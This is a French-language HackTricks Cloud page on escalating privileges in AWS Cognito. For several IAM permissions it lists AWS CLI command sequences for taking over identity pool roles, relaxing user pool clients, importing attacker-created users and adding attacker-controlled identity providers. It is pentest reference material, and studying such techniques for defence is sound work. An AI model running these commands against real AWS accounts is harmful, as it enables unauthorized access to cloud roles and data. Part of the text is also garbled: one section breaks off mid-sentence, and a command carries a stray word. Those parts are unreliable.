 # AWS - Cognito Privesc

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Cognito

Pour plus d'informations sur Cognito, consultez :

{% content-ref url="../aws-services/aws-cognito-enum/" %}
[aws-cognito-enum](../aws-services/aws-cognito-enum/)
{% endcontent-ref %}

### Collecte de justificatifs d'identité à partir de la piscine d'identité

Comme Cognito peut accorder des **justificatifs d'identité de rôle IAM** aux utilisateurs **authentifiés** et **non authentifiés** de l'application, si vous localisez l'**ID de la piscine d'identité** d'une application (qui devrait être codé en dur dessus), vous pouvez obtenir de nouveaux justificatifs d'identité et donc une élévation de privilèges (à l'intérieur d'un compte AWS où vous n'aviez probablement même pas de justificatifs d'identité auparavant).

Pour plus d'informations, [**consultez cette page**](../aws-unauthenticated-enum-access/#cognito).

**Impact potentiel :** Élévation directe des privilèges vers le rôle de services attaché aux utilisateurs non authentifiés (et probablement vers celui attaché aux utilisateurs authentifiés).

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

Avec cette autorisation, vous pouvez **accorder n'importe quel rôle cognito** aux utilisateurs authentifiés/non authentifiés de l'application Cognito.

```bash
aws cognito-identity set-identity-pool-roles \
    --identity-pool-id <identity_pool_id> \
    --roles unauthenticated=<role ARN>

# Obtenir des justificatifs d'identité
## Obtenir un ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Obtenir des justificatifs d'identité pour cet ID
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374" ole
```

Si l'application Cognito **n'a pas d'utilisateurs non authentifiés activés**, vous pourriez avoir besoin également de l'autorisation `cognito-identity:UpdateIdentityPool` pour l'activer.

**Impact potentiel :** Élévation directe des privilèges vers n'importe quel rôle cognito.

### `cognito-identity:update-identity-pool`

Un attaquant disposant de cette autorisation pourrait définir par exemple un pool d'utilisateurs Cognito sous son contrôle ou tout autre fournisseur d'identité où il peut se connecter en tant que **moyen d'accéder à ce pool d'identités Cognito**. Ensuite, il suffit de **se connecter** sur ce fournisseur d'utilisateurs pour **lui permettre d'accéder au rôle authentifié configuré dans la piscine d'identités**.

```bash
# Cet exemple utilise un pool d'utilisateurs Cognito comme fournisseur d'identité
## mais vous pouvez utiliser n'importe quel autre fournisseur d'identité
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    [--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
    --cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Maintenant, vous devez vous connecter au pool d'utilisateurs que vous avez configuré
## après avoir le jeton d'identification de la connexion, continuez avec les commandes suivantes :

# À cette étape, vous devriez déjà avoir un jeton d'identification
aws cognito-identity get-id \
    --identity-pool-id <id_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Obtenez l'identity_id de la réponse de la commande précédente
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```

Il est également possible de **abuser de cette autorisation pour permettre l'authentification de base** :

```bash
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    --allow-unauthenticated-identities
    --allow-classic-flow
```

**Impact potentiel :** Compromission du rôle IAM authentifié configuré à l'intérieur de la piscine d'identités.

### `cognito-idp:AdminAddUserToGroup`

Cette autorisation permet d'**ajouter un utilisateur Cognito à un groupe Cognito**,
### `cognito-idp:CreateUserPoolClient` | `cognito-idp:UpdateUserPoolClient`

Un attaquant ayant cette permission pourrait **créer un nouveau client User Pool moins restreint** que les clients de pool existants. Par exemple, le nouveau client pourrait permettre n'importe quel type de méthode d'authentification, ne pas avoir de secret, avoir la révocation de jetons désactivée, permettre aux jetons d'être valides pendant une période plus longue...

La même chose peut être faite si au lieu de créer un nouveau client, un **client existant est modifié**.

Dans la [**ligne de commande**](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/create-user-pool-client.html) (ou la [**mise à jour**](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/update-user-pool-client.html)), vous pouvez voir toutes les options, vérifiez-le!.

```bash
aws cognito-idp create-user-pool-client \
    --user-pool-id <value> \
    --client-name <value> \
    [...]
```

**Impact potentiel:** Privesc indirect potentiel vers l'utilisateur autorisé du pool d'identité utilisé par le pool d'utilisateurs en créant un nouveau client qui assouplit les mesures de sécurité et permet à un attaquant de se connecter avec un utilisateur qu'il a pu créer.

### `cognito-idp:CreateUserImportJob` | `cognito-idp:StartUserImportJob`

Un attaquant pourrait abuser de cette permission pour créer des utilisateurs en téléchargeant un fichier csv avec de nouveaux utilisateurs.

```bash
# Créer un nouveau travail d'importation
aws cognito-idp create-user-import-job \
    --job-name <value> \
    --user-pool-id <value> \
    --cloud-watch-logs-role-arn <value>

# Utiliser un nouveau travail d'importation
aws cognito-idp start-user-import-job \
    --user-pool-id <value> \
    --job-id <value>

# Les deux options ci-dessus vous donneront une URL où vous pouvez envoyer le fichier CVS avec les utilisateurs à créer
curl -v -T "PATH_TO_CSV_FILE" \
    -H "x-amz-server-side-encryption:aws:kms" "PRE_SIGNED_URL"
```

(Dans le cas où vous créez un nouveau travail d'importation, vous pourriez également avoir besoin de la permission iam passrole, je ne l'ai pas encore testée).

**Impact potentiel:** Privesc direct vers le rôle IAM du pool d'identité pour les utilisateurs authentifiés. Privesc indirect vers d'autres fonctionnalités de l'application en mesure de créer n'importe quel utilisateur.

### `cognito-idp:CreateIdentityProvider` | `cognito-idp:UpdateIdentityProvider`

Un attaquant pourrait créer un nouveau fournisseur d'identité pour ensuite pouvoir **se connecter via ce fournisseur**.

```bash
aws cognito-idp create-identity-provider \
    --user-pool-id <value> \
    --provider-name <value> \
    --provider-type <value> \
    --provider-details <value> \
    [--attribute-mapping <value>] \
    [--idp-identifiers <value>]
```

**Impact potentiel:** Privesc direct vers le rôle IAM du pool d'identité pour les utilisateurs authentifiés. Privesc indirect vers d'autres fonctionnalités de l'application en mesure de créer n'importe quel utilisateur.

### cognito-sync:\* Analyse

C'est une permission très courante par défaut dans les rôles de Cognito Identity Pools. Même si un joker dans une autorisation semble toujours mauvais (surtout venant d'AWS), les **autorisations données ne sont pas super utiles du point de vue d'un attaquant**.

Cette permission permet de lire les informations d'utilisation des Identity Pools et des Identity IDs à l'intérieur des Identity Pools (qui ne sont pas des informations sensibles).\
Les Identity IDs peuvent avoir des [**ensembles de données**](https://docs.aws.amazon.com/cognitosync/latest/APIReference/API\_Dataset.html) qui leur sont assignés, qui sont des informations des sessions (AWS le définit comme un **jeu sauvegardé**). Il est possible que cela contienne des informations sensibles (mais la probabilité est assez faible). Vous pouvez trouver dans la [**page d'énumération**](../aws-services/aws-cognito-enum/) comment accéder à ces informations.

Un attaquant pourrait également utiliser ces autorisations pour **s'inscrire à un flux Cognito qui publie des modifications** sur ces ensembles de données ou un **lambda qui déclenche des événements cognito**. Je n'ai pas vu cela être utilisé, et je ne m'attendrais pas à des informations sensibles ici, mais ce n'est pas impossible.

<details>

<summary><strong>Supportez HackTricks et obtenez des avantages !</strong></summary>

* Si vous voulez voir votre **entreprise annoncée dans HackTricks** ou si vous voulez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>